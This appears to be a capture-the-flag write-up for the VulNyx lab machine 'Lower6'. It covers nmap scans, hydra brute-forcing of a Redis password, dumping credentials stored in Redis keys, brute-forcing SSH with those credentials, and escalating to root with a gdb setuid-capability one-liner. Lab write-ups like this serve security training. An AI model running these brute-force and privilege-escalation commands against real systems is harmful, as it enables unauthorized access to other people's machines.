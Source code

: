 ```yaml
---
title: VulNyx - Lower6 Writeup
date: 2025-05-26 17:00:00 +0530
categories: [Vulnyx, Writeups]
tags: [vulnyx, linux]
---
```

## Enumeration

### Port Scanning

Performing a basic port scan and service enumeration with `nmap` gives us the following 

```bash
nmap -p- lower6.vl  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-25 05:55 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for lower6.vl (192.168.25.13)
Host is up (0.0013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
6379/tcp open  redis
MAC Address: 08:00:27:2D:DD:BB (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.29 seconds
```

```bash
nmap -p 22,6379 -sC -sV lower6.vl
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-25 05:56 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for lower6.vl (192.168.25.13)
Host is up (0.00025s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
6379/tcp open  redis   Redis key-value store
MAC Address: 08:00:27:2D:DD:BB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.55 seconds
```

As we can see we have OpenSSH running on port `22` and a Redis key-value store running on port `6379` 

### Port 6379 - Redis key-value store

Redis is an in-memory database. When we attempt to connect to the redis instance we see that anonymous connections are are not allowed, i.e., authentication is required.

```bash
redis-cli -h lower6.vl -p 6379
lower6.vl:6379> info
NOAUTH Authentication required.
```

We first attempted some common credentials like `admin:admin`, `admin:password`, and `root:root` which were unsuccessful. 

#### Redis Brute-force

We next attempted to brute-force credentials for the redis instance using `hydra` 

```bash
hydra -P rockyou.txt -f redis://192.168.25.13 -t 64
```

![image.png](/assets/img/lower6_writeup/image.png)

We discovered a valid password, i.e., `hellow` and used it to login to the redis service by assuming that only a password was configured in the redis instance.

> **Note:** Redis allows the configuration of either username + password or only a password. If only a password is configured the username used would be “default”.
{: .prompt-info }

![image.png](/assets/img/lower6_writeup/image%201.png)

### Redis Enumeration (Authenticated)

We first used the `INFO keyspace` command to obtain database related statistics. We can see that `db0` contains `5` keys.

![image.png](/assets/img/lower6_writeup/image%202.png)

## Dumping db0

By dumping `db0` we can see that it seems to contain credentials.

```bash
lower6.vl:6379> INFO keyspace
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
lower6.vl:6379> SELECT 0
OK
lower6.vl:6379> KEYS *
1) "key2"
2) "key5"
3) "key4"
4) "key3"
5) "key1"
lower6.vl:6379> GET key2
"ghost:Ghost!Hunter42"
lower6.vl:6379> GET key5
"shadow:ShadowMaze@9"
lower6.vl:6379> GET key4
"wolf:CyberWolf#21"
lower6.vl:6379> GET key3
"snake:Pixel_Sn4ke77"
lower6.vl:6379> GET key1
"killer:K!ll3R123"
```

#### Dumped keys

**creds.txt**

```
ghost:Ghost!Hunter42
shadow:ShadowMaze@9
wolf:CyberWolf#21
snake:Pixel_Sn4ke77
killer:K!ll3R123
```

## Brute-forcing SSH

Next we prepare a username and password wordlist with keys dumped, to be used with hydra to brute-force SSH which lead to the discovery of a valid username and password combination, i.e., `killer:ShadowMaze@9`

```bash
cut -f1 -d ":" creds.txt > users.txt                                                                                                                         
```

```bash
cut -f2 -d ":" creds.txt > passwords.txt
```

![image.png](/assets/img/lower6_writeup/image%203.png)

### User flag

![image.png](/assets/img/lower6_writeup/image%204.png)

## Privilege escalation

### linpeas.sh

We then used LinPEAS to look for possible paths to escalate privileges. We can see that the `gdb` binary has set user identity (`setuid`) capabilities which we can potentially use to escalate privileges by using it as backdoor to maintain privileged access by manipulating its own process UID.

```bash
scp linpeas.sh killer@lower6.vl:/home/killer/
```

![image.png](/assets/img/lower6_writeup/image%205.png)

```bash
killer@lower6:~$ /usr/bin/gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

![image.png](/assets/img/lower6_writeup/image%206.png)

### Root flag

![image.png](/assets/img/lower6_writeup/image%207.png)
